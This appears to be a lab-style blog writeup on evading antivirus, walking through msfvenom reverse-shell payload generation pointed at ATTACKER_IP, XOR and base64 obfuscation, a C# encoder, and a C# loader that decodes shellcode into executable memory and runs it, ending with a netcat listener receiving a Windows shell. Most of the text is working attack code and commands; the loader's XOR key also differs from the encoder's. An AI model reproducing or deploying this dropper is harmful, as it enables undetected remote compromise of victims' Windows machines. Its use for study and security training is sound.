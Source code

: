 ```yaml
---
title: Evading AV
date: 2023-07-08T22:12:14.963Z
tags:
  - writeup
description: A short blog post which touches ways to create payloads which have
  more a chance to evade anti-virus solutions.
---
```

## AV Detection

Antivirus solutions are able to analyze EXE files based on the information in the PE header and other PE sections.

Below are some interesting ways you can store shellcode in a PE

* Define shellcode as a local variable within the main function - it will be scored in the `.text` PE section
* Define shellcode as a global variable - it will be stored in the `.data` section
* Store shellcode as a raw binary in an icon image and link it within the code - stored in `.rsrc` data section
* Add a custom section to store the shellcode

## Shellcode Encoding - `MSFVenom`

Public tools such as `Metasploit` provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using any feature out of the box, chances are that your payloads will be detected as soon as the file touches the disk.

To generate a simple payload with this method, see below

First list all encoders available to `msfvenom`

```shell
user@machine$ msfvenom --list encoders | grep excellent
	cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

You can indicate what encoder to use by using the `-e` switch, and define how many times you want to encode it with the `-i` switch

```shell
user@machine$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
...
```

However, if you try and use this payload then the AV will start complaining instantly.

If encoding doesn’t work, you could try in encryption, we would expect encryption to have a higher success rating than encoding.

## Shellcode Encryption - `MSFVenom`

Similarly to encoding, you can list the available encryption algorithms:

```shell
user@machine$ msfvenom --list encrypt
	Name
    ----
    aes256
    base64
    rc4
    xor
```

This example will build an XOR encrypted payload. For this type of algorithm, you need to specify a key, in the example the key is “supersecret”

```shell
user@machine$ msfvenom - windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "supersecret" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

This will also be detected more often than not… sorry to burst your bubble.

The way to overcome these super-smart antivirus solutions is to create your own payload, so you will now learn how to do that.

## Creating a Custom Payload

Antivirus solutions do not know what to do to analyze your payload, notice you don’t have to do anything too complex, as long as it is confusing enough for the AV to analyse (this is not hard, as static analysis generally isn’t too good)

For this example, you will use a simple reverse shell generated by `msfvenom` and use a combination of XOR and Base64 to bypass windows defender.

Generate a reverse shell with `msfvenom` in C# format

```shell
user@machine$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp \
             -f csharp
```

Before building the actual payload, you will create a program that will encode the program how you like, called the encoder. In this case you will be XORing the payload with a custom key first, then encoding it using base64. Below is the C# source code

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Dropper for Decrypting
            string key = "supersecret";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));
        }
    }
}
```

Remember:

* Change the encryption key (if you want…)
* Change the value of the `buf` variable with the shellcode output by `msfvenom`

You can then compile and execute the program with the following commands (windows)

```powershell
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
  OJNFOBNopoijfvwo8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

### Self-decoding Payload

Since you have an encoded payload, you need to adjust your code so that it decodes the shellcode before executing it. To match the encoder, you need to decode everything in the reverse order. Decoding code can be found below:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Compile the code using:

```powershell
C:\> csc.exe EncStageless.cs
```

Before running the payload, set up a netcat listener to listen on the port you supplied to metasploit when you generated the payload:

```shell
user@machine$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```
